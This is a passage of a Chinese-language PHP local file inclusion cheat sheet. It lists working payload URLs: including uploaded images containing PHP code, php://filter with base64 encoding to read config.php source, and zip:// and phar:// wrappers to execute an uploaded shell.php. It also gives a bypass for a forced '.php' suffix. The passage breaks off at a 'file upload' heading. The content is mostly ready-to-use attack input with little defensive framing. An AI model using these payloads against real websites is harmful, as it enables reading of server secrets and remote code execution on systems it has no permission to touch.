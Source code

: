 ## 3) 包含图片/文本
如果包含的图片或者文本中存在php代码，它将被解析执行。

```
http://www.site.com/lfi.php?page=upload/image.jpg
```

```
include.php?file=test.txt 
```


## 4) php://filter

```
http://www.site.com/lfi.php?page=php://filter/resource=config.php
```

```
http://www.site.com/lfi.php?page=php://filter/convert.base64-encode/resource=config.php
```

效果一样

```
http://www.site.com/lfi.php?page=php://filter/read=convert.base64-encode/resource=xxx.php
```

## 5) Zip和Phar
文件名必须是以zip为扩展名

漏洞利用条件：php.ini中下列选项为Off

```
phar.readonly = Off
```

```
http://www.site.com/lfi.php?page=zip://image.zip%23shell.php

http://www.site.com/lfi.php?page=phar://image.phar#shell.php
```

限定了包含文件的后缀

```
include($_GET['page'] . '.php')
```

```
?page=phar://upload.phar/shell
```

```
?page=zip://upload.jpg#shell
```

## 6) 文件上传
